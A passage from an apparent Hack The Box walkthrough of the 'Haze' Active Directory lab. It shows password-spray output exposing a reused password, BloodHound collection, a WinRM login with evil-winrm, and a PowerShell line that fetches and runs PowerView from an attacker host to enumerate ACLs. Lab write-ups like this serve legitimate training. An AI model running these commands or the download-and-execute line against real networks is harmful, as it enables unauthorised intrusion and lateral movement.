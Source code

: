 ```bash
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24
```

### BloodHound Ingestion 2.0

We can see that the password is also valid for the `mark.adams` user, so we ingest BloodHound as that user and overwrite the current BloodHound data:

```bash
bloodhound-ce-python -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' \
-d haze.htb -dc-ip 10.10.11.61 -ns 10.10.11.61 -c All --zip
```

## Host Foothold

After reviewing the updated BloodHound data, we see that the `mark.adams` user belongs to the **Remote Management Users** domain group, meaning we can use **WinRM** to access the target host:

![image.png](image%208.png)

Logging in as the `mark.adams` user via **WinRM**:

```bash
evil-winrm -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -i 10.10.11.61
```

```
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami
haze\mark.adams
*Evil-WinRM* PS C:\Users\mark.adams\Documents>
```

## LM: mark.adams → Haze-IT-Backup$

After enumerating ACLs using **PowerView**'s `Find-InterestingDomainAcl` cmdlet, we discover that the members of the **gMSA_Managers** can write to the `ms-DS-GroupMSAMembership` property of the `Haze-IT-Backup$` service account:

```powershell
iex (iwr http://10.10.14.18:8888/PowerView.ps1 -useb)
Find-InterestingDomainAcl
```
